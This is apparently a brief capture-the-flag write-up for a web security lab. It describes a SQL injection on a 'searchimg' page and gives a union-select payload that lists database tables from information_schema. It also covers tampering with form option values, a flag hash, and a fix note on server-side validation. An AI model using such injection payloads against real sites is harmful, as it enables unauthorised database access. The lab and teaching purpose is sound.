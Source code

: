 # Where: <br>
    /?page=searchimg
# How:
    -By entering<br>

    -1 union _select_ null, concat (table_name) from information_schema.tables where table_schema = database ()

    -Change the value of 1 of the options to an invalid value.

    Or

    -Add an invalid option.

    -Select the invalid value

    -Receive the flag

# Flag:
    03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
    Store options server side/on backend.All user input should be sanitised and validated (backend).